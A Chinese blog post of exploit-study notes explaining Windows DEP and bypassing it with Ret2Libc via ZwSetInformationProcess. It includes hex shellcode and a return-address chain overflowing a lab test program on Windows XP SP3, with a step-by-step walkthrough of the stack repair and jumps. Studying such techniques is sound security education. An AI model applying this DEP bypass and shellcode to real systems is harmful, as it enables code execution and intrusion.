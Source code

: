 ```yaml
---
title: 漏洞学习笔记-014-DEP的介绍
description: Windows的DEP保护和简单的攻击方法
date: 2020-11-19 12:42:00+0800
categories:
    - Exploit
tags:
    - Windows
    - Exploit
---
```


本文来源：[Moeomu的博客](/zh-cn/posts/漏洞学习笔记-014-dep的介绍/)

## DEP的介绍

> 溢出攻击的根源是未准确区分数据和代码，但是重新设计计算机结构是不太可能的事情，所以使用各种办法去减缓溢出攻击

### 原理

- 将数据所在的内存页标为不可执行，而程序成功溢出进入shellcode时，CPU将会抛出执行异常
- DEP分为软件DEP和硬件DEP，而软件DEP指的是SafeSEH，硬件DEP在AMD平台上称为No-Execute Page-Protection(NX)，Intel平台上称为Execute Disable Bit(XD)
- 操作系统通过设置内存页的NX和XD标记，来指明不能从此执行代码，PageTable中插入一个标记来标识此页是否运行执行指令，0表示允许，1表示不允许

### DEP的工作状态

- Optin：允许系统组件和服务使用DEP，其它程序将不予保护，而用户可以通过ACT工具标记程序使用DEP，这种保护可以被程序动态关闭，多用于普通用户操作系统
- Output：为排除列表外的程序启用DEP，多用于服务器操作系统
- AlwaysOn：对所有的程序应用DEP保护，不可被关闭，只有64位操作系统才使用此模式
- AlwaysOff：一般不用

### 编译选项

> `/NXCOMPAT`编译选项将在PE头中设置`IMAGE_DLLCHARACTERISTICS_ NX_COMPAT`标识，位于`IMAGE_OPTIONAL_HEADER`中的`DllCharacteristics`，此值为`0x100`时表示启用DEP

## 利用Ret2Libc挑战DEP

### 原理

- DEP保护时溢出失败的原因是DEP检测到代码在非可执行页上执行，如果让程序直接跳转到一个已存在的系统函数中，必然不会被拦截
- `Ret2Libc`是`Return-to-libc`的简写，如果将每条exploit都找到一条在系统lib中的替代品，那么此exp一定可以正确执行，但问题在于不是每条指令都不包含0，不断的跳转容易跳错地方
- 以下是三个可行的方法
  - 跳转到`ZwSetinfomationProcess`函数将DEP关闭，转入shellcode执行
  - 跳转到`VirtualProtect`将shellcode页面设为可执行，随后转入shellcode执行
  - 跳转到`VirtualAlloc`申请一段可执行的内存空间随后跳入shellcode执行

### 尝试ZwSetinfomationProcess关闭DEP

#### 前置内容

- 一个进程的DEP标识存在于`KPROCESS`结构的`_KEXECUTE_OPTION`上，可以通过API函数修改

> `_KEXECUTE_OPTION`结构

```cpp
Pos0ExecuteDisable:1bit
Pos1ExecuteEnable:1bit
Pos2DisableThunkEmulation:1bit
Pos3Permanent:1bit
Pos4ExecuteDispatchEnable:1bit
Pos5ImageDispatchEnable:1bit
Pos6Spare:2bit
```

- 当前进程DEP开启的时候，`ExecuteDisable`将会被设置为1
- 当前进程DEP关闭的时候，`ExecuteEnable`将会被设置为1
- `DisableThunkEmulation`为了兼容ATL被设置
- `Permanent`被置1后表示这些标志都不能再被修改
- 我们只要将`_KEXECUTE_OPTIONS`的值设置为`0x02(00000010)`就可以将`ExecuteEnable`置为1

#### shellcode原理

- `LdrpCheckNXCompatibility`函数为了检查DEP兼容性，满足以下条件之一将可以关闭DEP
  - DLL受SafeDisc版权保护系统保护
  - DLL中含有`.aspack`，`.pcle`，`.sforce`等字节的时候
  - DLL存在于注册表声明的不需启用DEP的模块的时候`HKEY_LOCAL_MACHINE\SOFTWARE \Microsoft\ Windows NT\CurrentVersion\Image File Execution Options\DllNXOptions`

#### 代码

> 测试环境：系统：Windows XP SP3，DEP状态：Optout，编译器：VC6，编译选项：禁用优化，版本：release

```cpp
ULONG ExecuteFlags = MEM_EXECUTE_OPTION_ENABLE;

ZwSetInformationProcess(
    NtCurrentProcess(),     // Handle(-1)
    ProcessExecuteFlags,    //0x22
    &ExecuteFlags,          // ptr to 0x2
    sizeof(ExecuteFlags)    //0x4
);
```

```cpp
#include <string.h>
#include <windows.h>

char shellcode[] =
"\xFC\x68\x6A\x0A\x38\x1E\x68\x63\x89\xD1\x4F\x68\x32\x74\x91\x0C"
"\x8B\xF4\x8D\x7E\xF4\x33\xDB\xB7\x04\x2B\xE3\x66\xBB\x33\x32\x53"
"\x68\x75\x73\x65\x72\x54\x33\xD2\x64\x8B\x5A\x30\x8B\x4B\x0C\x8B"
"\x49\x1C\x8B\x09\x8B\x69\x08\xAD\x3D\x6A\x0A\x38\x1E\x75\x05\x95"
"\xFF\x57\xF8\x95\x60\x8B\x45\x3C\x8B\x4C\x05\x78\x03\xCD\x8B\x59"
"\x20\x03\xDD\x33\xFF\x47\x8B\x34\xBB\x03\xF5\x99\x0F\xBE\x06\x3A"
"\xC4\x74\x08\xC1\xCA\x07\x03\xD0\x46\xEB\xF1\x3B\x54\x24\x1C\x75"
"\xE4\x8B\x59\x24\x03\xDD\x66\x8B\x3C\x7B\x8B\x59\x1C\x03\xDD\x03"
"\x2C\xBB\x95\x5F\xAB\x57\x61\x3D\x6A\x0A\x38\x1E\x75\xA9\x33\xDB"
"\x53\x68\x6B\x61\x6F\x6F\x68\x4D\x69\x73\x61\x8B\xC4\x53\x50\x50"
"\x53\xFF\x57\xFC\x53\xFF\x57\xF8\x90\x90\x90\x90\x90\x90\x90\x90"
"\x90\x90\x90\x90"
"\x52\xE2\x92\x7C" // mov eax, 1
"\x96\x73\x1B\x5D" // mov ebp, esp & esp+8
"\x1E\xAD\x17\x5D" // esp+0x24
"\xB4\xC1\xC5\x7D" // jmp esp
"\x90\x90\x90\x90"
"\x24\xCD\x93\x7C" // call Close DEP
"\x90\x90\xE9\x2D" // jmp to shellcode start
"\xFF\xFF\xFF\x90"
;

void test()
{
    char tt[176];
    strcpy(tt,shellcode);
}

int main()
{
    HINSTANCE hInst = LoadLibrary("shell32.dll");
    char temp[200];
    test();

    return 0;
}
```

#### 技术细节

- 需要对比al是否为1，所以第一步retn将会返回到`mov eax, 1`，`retn`的地址，此地址将会返回到修缮ebp的位置
- 因为在调用函数之前，会访问ebp中的值，但是它已经被刷写掉了，所以将修缮ebp，在此使用了`push esp`，`pop ebp`，`retn`三条指令将esp中的地址赋值给ebp，由于retn后面跟着数字，因此ebp将会加上这个数字，也就是`ebp+8`，此时ebp小于esp了，一旦调用子程序将会对栈区进行破坏，所以依旧得将ebp再加上一些，我在此选择将esp加上0x24，与之前的0x8凑成了0x30的栈空间，这样在返回的时候将会返回到语句`retn 0x24`
- `retn 0x24`语句在返回的时候将会返回到调用关闭DEP的函数`ZwSetInformationProcess`的地方，调用完毕后将会使用leave语句并retn，因此它将会返回到`jmp esp`的地址处
- 由`jmp esp`跳转到`\x24\xCD\x93\x7C`数据存放的地址处，而此垃圾数据将不会影响shellcode的执行
- 在垃圾数据的后方写入一个跳转即可，至此跳到shellcode真实执行之处
